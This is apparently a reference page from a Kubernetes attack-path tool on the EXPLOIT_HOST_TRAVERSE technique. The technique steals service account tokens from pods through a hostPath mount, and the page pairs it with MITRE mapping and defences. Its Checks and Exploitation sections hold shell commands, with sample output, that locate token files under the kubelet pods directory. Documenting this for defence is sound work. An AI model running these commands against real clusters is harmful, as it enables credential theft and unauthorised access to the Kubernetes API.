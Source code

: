 # EXPLOIT_HOST_TRAVERSE

This attack represents the ability to steal a K8s API token from a container via access to a mounted parent volume of the `/var/lib/kubelet/pods` directory.

| Source                                    | Destination                           | MITRE                            |
| ----------------------------------------- | ------------------------------------- |----------------------------------|
| [Volume](../vertices/VOLUME.md) | [Volume](../vertices/VOLUME.md) | [Unsecured Credentials, T1552](https://attack.mitre.org/techniques/T1552/) |

## Details

An attacker in a container with access to the `/var/lib/kubelet/pods` directory or any parent directory of the node via a `hostPath` mount, even readonly, can steal the serviceaccount access tokens of all running pods to perform actions in the K8s API. 

## Prerequisites

A volume containing K8s API tokens is mounted into a container. The canonical case is a node root filesystem mounted readonly via a host path volume mount.

## Checks

Check for mounted directories that contain the service account token paths:

```bash
# The service account tokens are tmpfs mounts themselves so it is very apparent when they are present
cat /proc/self/mounts

# ...
/dev/vda1 /hostpods ext4 ro,relatime,discard 0 0
tmpfs /hostpods/063c7aae-1965-4824-b4f5-a8e7cdc2d224/volumes/kubernetes.io~projected/kube-api-access-zhzgh tmpfs rw,relatime,size=15340756k 0 0
tmpfs /hostpods/648e72af-34a8-4be6-8e7a-9cfac7e7fd94/volumes/kubernetes.io~projected/kube-api-access-hkh28 tmpfs rw,relatime,size=51200k 0 0
tmpfs /hostpods/b8a7238c-83eb-4392-b055-ad08f8b8a218/volumes/kubernetes.io~projected/kube-api-access-xl5fz tmpfs rw,relatime,size=15340756k 0 0
tmpfs /hostpods/5edf50d2-747c-45b2-8b40-210f1bfee866/volumes/kubernetes.io~projected/kube-api-access-2l9sx tmpfs rw,relatime,size=15340756k 0 0
tmpfs /hostpods/f80874b0-1a52-4175-9705-550b75743adf/volumes/kubernetes.io~projected/kube-api-access-8ms4p tmpfs rw,relatime,size=15340756k 0 0
tmpfs /hostpods/2e2811f3-cfb4-41ea-ae51-8e337357e0d0/volumes/kubernetes.io~projected/kube-api-access-7p2hf tmpfs rw,relatime,size=15340756k 0 0
tmpfs /hostpods/37d46741-de8b-45b3-a0a4-874529bb4032/volumes/kubernetes.io~projected/kube-api-access-g8wqm tmpfs rw,relatime,size=15340756k 0 0
tmpfs /hostpods/05ae5550-ac58-47a3-b466-c09944240062/volumes/kubernetes.io~projected/kube-api-access-pdqmc tmpfs rw,relatime,size=15340756k 0 0
tmpfs /hostpods/3a55670f-a784-4d3c-8231-5bf90c54fc87/volumes/kubernetes.io~projected/kube-api-access-2bf8s tmpfs rw,relatime,size=15340756k 0 0
tmpfs /hostpods/b40f8657-5a06-49ed-9128-b807de3281e5/volumes/kubernetes.io~projected/kube-api-access-hjbzn tmpfs rw,relatime,size=15340756k 0 0
tmpfs /hostpods/4eb7074e-133f-4ecc-8fa4-a686cf46ba6d/volumes/kubernetes.io~projected/kube-api-access-wqsqv tmpfs rw,relatime,size=15340756k 0 0
tmpfs /hostpods/23dab617-9d86-4658-823b-12aaab1f0edc/volumes/kubernetes.io~projected/kube-api-access-xd5fl tmpfs rw,relatime,size=15340756k 0 0
tmpfs /hostpods/300cbaef-f0aa-441b-b22d-154bfa31901a/volumes/kubernetes.io~projected/kube-api-access-5xwr4 tmpfs rw,relatime,size=15340756k 0 0
tmpfs /hostpods/e949b9f2-304b-4664-93e5-d0ca79d69448/volumes/kubernetes.io~projected/kube-api-access-xrbr4 tmpfs rw,relatime,size=15340756k 0 0
# ...
```

## Exploitation

If all (or part of) the host filesystem is mounted (/host in our example), steal access tokens for ALL pods running on the node:

```bash
ls /host/var/lib/kubelet/pods/0dc76586-c18c-4db6-b5f2-019f270d3621
# containers  etc-hosts  plugins	volume-subpaths  volumes

find /host/var/lib/kubelet/pods/ -name token -type l 2>/dev/null
#/host/var/lib/kubelet/pods/5a9fc508-8410-444a-bf63-9f11e5979bee/volumes/kubernetes.io~projected/kube-api-access-225d6/token
#/host/var/lib/kubelet/pods/a1176593-34a2-43e6-8bdd-ed10fa148fe7/volumes/kubernetes.io~projected/kube-api-access-ng6px/token
#/host/var/lib/kubelet/pods/10b90d62-6b16-4aa7-9e72-75f18dcca5a8/volumes/kubernetes.io~projected/kube-api-access-j7dsp/token
#/host/var/lib/kubelet/pods/dfbf38ad-2e92-44e0-b05b-8859350b6ea5/volumes/kubernetes.io~projected/kube-api-access-c89ff/token
```

See [IDENTITY_ASSUME](./IDENTITY_ASSUME.md#exploitation) for how to use a captured token.

## Defences

### Monitoring

+ Monitor for access to well-known K8s secrets paths from unusual processes.

### Implement security policies

Use a pod security policy or admission controller to prevent or limit the creation of pods with a `hostPath` mount of parents of `/var/lib/kubelet/pods` or other sensitive locations.

### Prevent service account token automounting

When a pod is being created, it automatically mounts a service account (the default is default service account in the same namespace). Not every pod needs the ability to access the API from within itself.

From version 1.6+ it is possible to prevent *automounting* of serviceaccount tokens on pods using:

```yaml
apiVersion: v1
kind: ServiceAccount
metadata:
  name: sa1
automountServiceAccountToken: false
```

## Calculation

+ [ExploitHostTraverseToken](../../pkg/kubehound/graph/edge/exploit_host_traverse_token.go)

## References:

+ [The Path Less Traveled: Abusing Kubernetes Defaults (Video)](https://www.youtube.com/watch?v=HmoVSmTIOxM)
+ [The Path Less Traveled: Abusing Kubernetes Defaults (GitHub)](https://github.com/mauilion/blackhat-2019)
+ [Securing Kubernetes Clusters by Eliminating Risky Permissions](https://www.cyberark.com/resources/threat-research-blog/securing-kubernetes-clusters-by-eliminating-risky-permissions)

